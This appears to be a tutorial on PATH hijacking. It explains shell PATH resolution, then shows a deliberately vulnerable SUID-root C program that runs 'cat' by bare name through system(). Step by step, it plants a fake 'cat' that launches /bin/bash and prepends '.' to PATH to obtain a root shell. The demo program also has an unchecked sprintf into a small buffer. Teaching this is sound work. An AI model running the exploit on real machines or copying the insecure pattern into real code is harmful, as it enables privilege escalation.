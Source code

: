 # PATH Hijacking

## What is the PATH?

When you launch a program, for example in the shell, you typically
just write the name of the program. For example, if I want to list out
all the files in a given directory, I can use the *ls* program as
follows

```sh
$ ls
content  public  thumbnail  video
```
Now, how does the shell process know which command to execute?
Remember that in modern operating systems, resources are located in
specific paths of a file system. All sorts of resources are located
like that. Even binaries, which are the programs we use to do
various activities.

This means that before executing the command, the shell needs to
resolve its full path, that is, it needs to know where does the
program reside within the file system. This is where the concept of
a PATH comes in.

**IMPORTANT**: The PATH is an environment variable, found within the
shell and other processes as well, which determines the folders to
look in order to resolve command names into full paths.

In order to print the value of the PATH, within the shell `bash` we
can execute the following command

```sh
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin:/opt/cuda/bin:/opt/cuda/nsight_compute:/opt/cuda/nsight_systems/bin:/usr/lib/jvm/default/bin:/usr/bin/site_perl:/usr/bin/vendor_perl:/usr/bin/core_perl:/usr/lib/rustup/bin:/home/leo/utils/:/home/leo/go/bin/
```
Notice here that `echo` is the command used to print stuff to the
console, and `$PATH` is the name of the environment variable which
contains the PATH.

As you can see, the PATH is actually a list of directory paths,
separated with colons. If we were to list out the paths in the
previous output we'd obtain the following list

```
/usr/local/sbin
/usr/local/bin
/usr/bin
/opt/cuda/bin
/opt/cuda/nsight_compute
/opt/cuda/nsight_systems/bin
/usr/lib/jvm/default/bin
/usr/bin/site_perl
/usr/bin/vendor_perl
/usr/bin/core_perl
/usr/lib/rustup/bin
/home/leo/utils/
/home/leo/go/bin/
```

Now, how is PATH used? Simple, when you launch a program without a
full path, such as when we just executed the command *ls*, the shell
will use this list of folders in order to look for the ls binary. It
will start from the first folder, and, until it has found an ls
binary, it will keep looking for further folders, until all of them
have been checked.

In the case of `ls`, it will do the following

1. First it checks if in the folder `/usr/local/sbin` there is the
binary `ls`, that is, it checks for the existence of the file

```
/usr/local/sbin/ls
```

Since there is no such file in our current file system, it keeps
going and checks for the next directory.

2. The second directory is `/usr/local/bin`, and so the shell checks for the existence of the file

```
 /usr/local/bin/ls
```
Since there is no such file in our current file system, it keeps going and checks for the next directory.

3. The third directory is ~/usr/bin~, and so the shell checks for the existence of the file

```
/usr/bin/ls
```

Since there is such file in our current file system, it loads the file in memory and it executes it.
Indeed, notice that if we execute `ls` or we execute `/usr/bin/ls` with its ful path, we get the same output

```sh
$ ls
content  public  thumbnail  video

$ /usr/bin/ls
content  public  thumbnail  video
```

To understand how a given command is resolved, we can use the binary
`which`. This binary uses the PATH in exactly the same we just
described in order to print out the full path of the command.

```
$ which ls
/usr/bin/ls
```

## PATH Hijacking
Having described what is the PATH, we can know understand the
dynamics of the *PATH Hijacking* attack.

Let's say we have the following C program called `reader.c`.

```c
// gcc reader.c -o reader

#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

char *VALID_FILES[] = { "01.txt", "02.txt" };
int valid_files_count = 2;

int main(int argc, char **argv) {

  if (argc < 2) {
    fprintf(stderr, "[INFO]: Usage %s <filename>\n");
    return -1;
  }

  char *user_filename = argv[1];

  for (int i = 0; i < valid_files_count; i++) {
    char *valid_filename = VALID_FILES[i];
    int length = strlen(valid_filename);

    if (!strncmp(user_filename, valid_filename, length)) {
      char cmd[42] = {0};
      sprintf(cmd, "cat ./archive/%s", user_filename);
      setuid(0);
      setgid(0);
      system(cmd);
      return 0;
    }
  }

  printf("[INFO]: No file with such names were found.\n");
  
  return 0;
}

```
  
We can compile the program and make it a SUID binary owned by the `root` user as follows

```sh
gcc reader.c -o reader && sudo chown root reader && sudo chmod +s reader
```

As we can see, the program is used to read some files within an
archive directory, where archive contains a bunch of files which can
only be access by root, or by the program itself in read only mode.

```sh
$ sudo tree -L 2
.
├── archive
│   ├── 01.txt
│   ├── 02.txt
│   └── 03.txt
├── notes.org
├── reader
└── reader.c
```

The program just shown is vulnerable to PATH hijacking. Notice how the
program makes use of the `cat` binary in order to print out the
contents of the file. Specifically, notice how cat is called: no full
path is given, therefore the path that used to find the binary will be
computed at runtime using the PATH environment variable. And this is
why the program is vulnerable and can be exploited.

Before calling the binary, an attacker can set a specific environment PATH, and the vulnerable program will use that to find the cat binary. An attacker can then create a malicious binary or script called `cat` and place it within the first folder of the path. When the program will execute, it will find the attacker's malicious code, and not the original cat.

In the example shown above, the attacker can do the following

1. Create a malicous bash script and call it `cat` within the current folder

```sh
echo -en '#!/usr/bin/env sh\n/bin/bash\n' > cat
chmod +x cat
```
2. Launch the program with a malicious PATH variable

```sh
PATH=.:$PATH ./reader 01.txt
```

3. Enjoy the profit

```
$ PATH=.:$PATH ./reader 01.txt
# whoami
root
```
